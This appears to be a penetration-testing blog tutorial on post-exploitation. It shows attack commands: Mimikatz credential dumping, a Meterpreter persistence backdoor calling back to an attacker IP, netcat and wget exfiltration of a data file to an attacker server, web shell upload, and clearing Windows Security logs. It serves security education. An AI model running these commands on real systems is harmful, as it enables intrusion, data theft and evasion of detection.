 ```yaml
---
title: "Maintaining Access & Covering Tracks: Persistence, Data Exfiltration, and Evasion Techniques"
description: "Learn about post-exploitation techniques, including privilege escalation with Metasploit and PowerSploit, establishing persistence with web shells, exfiltrating data, and covering your tracks."
image: "https://armur-ai.github.io/armur-blog-pentest/images/security-fundamentals.png"
icon: "code"
draft: false
---
```


## Introduction

This tutorial delves into post-exploitation techniques, focusing on maintaining access to compromised systems, escalating privileges, exfiltrating data, and covering your tracks to avoid detection. We'll explore tools like Metasploit, PowerSploit, web shells, and various data exfiltration methods.

### Privilege Escalation

Privilege escalation involves gaining higher-level privileges on a compromised system, such as administrator or root access.

**Metasploit for Privilege Escalation:**

Metasploit provides various modules for privilege escalation, targeting specific operating systems and vulnerabilities.

**Example: Using the "Windows Local Exploit Suggester"**

This module scans the target system for potential privilege escalation vulnerabilities.

```bash
use post/multi/recon/local_exploit_suggester
```

**PowerSploit:**

PowerSploit is a collection of PowerShell scripts for post-exploitation activities, including privilege escalation.

**Example: Using "Invoke-Mimikatz"**

`Invoke-Mimikatz` can be used to extract plaintext passwords from memory.

```powershell
Invoke-Mimikatz
```

### Establishing Persistence

Persistence mechanisms allow attackers to maintain access to a compromised system even after a reboot or user logout.

**Web Shells:**

Web shells are scripts that provide a backdoor interface to a web server.

**Example: Uploading a PHP Web Shell:**

Upload a PHP web shell (e.g., "cmd.php") to a vulnerable web server directory. Access the web shell through a web browser to execute commands on the server.

**Meterpreter:**

Meterpreter is a Metasploit payload that provides advanced post-exploitation capabilities, including persistence mechanisms.

**Example: Establishing Persistence with Meterpreter:**

Use the `persistence` command within a Meterpreter session to create a persistent backdoor.

```
meterpreter > persistence -S -i 5 -p 4444 -r 192.168.1.100
```

This command creates a persistent backdoor that connects back to the attacker's machine every 5 seconds on port 4444.

### Data Exfiltration

Data exfiltration involves transferring sensitive data from a compromised system to an attacker-controlled location.

**Netcat:**

Netcat is a versatile networking tool that can be used for various purposes, including data exfiltration.

**Example: Exfiltrating a File with Netcat:**

On the compromised system:

```bash
nc 192.168.1.100 4444 < sensitive_data.txt
```

On the attacker's machine:

```bash
nc -lvp 4444 > received_data.txt
```

**wget and curl:**

`wget` and `curl` can be used to download files from a compromised system to an attacker-controlled server.

**Example: Exfiltrating a File with wget:**

On the compromised system:

```bash
wget --post-file=sensitive_data.txt http://attacker_server/exfil.php
```

### Covering Tracks

Covering tracks involves removing evidence of your presence on a compromised system to avoid detection.

**Clearing Logs:**

Attackers may attempt to clear system logs to erase evidence of their activities.

**Example: Clearing Windows Event Logs:**

```powershell
Clear-EventLog -LogName "Security"
```

**Rootkit Detection:**

Rootkits are tools that hide the presence of malware or attackers on a system.

**Example: Using rkhunter:**

rkhunter is a rootkit detection tool that can scan for known rootkit signatures.

```bash
rkhunter --checkall
```

## Best Practices for Post-Exploitation

* **Minimize Impact:** Avoid unnecessary actions that could damage the compromised system.
* **Data Integrity:** Preserve the integrity of data during exfiltration.
* **Avoid Detection:** Utilize evasion techniques to minimize the risk of detection.
* **Clean Up:** Remove any backdoors or malicious code after completing your activities.

## Conclusion

This tutorial covered various post-exploitation techniques, including privilege escalation, persistence mechanisms, data exfiltration methods, and techniques for covering tracks. Mastering these techniques is crucial for penetration testers and security professionals to effectively assess the impact of vulnerabilities and understand the potential for attackers to maintain access and exfiltrate sensitive data. Remember to always operate within ethical and legal boundaries and obtain proper authorization before conducting any security testing activities.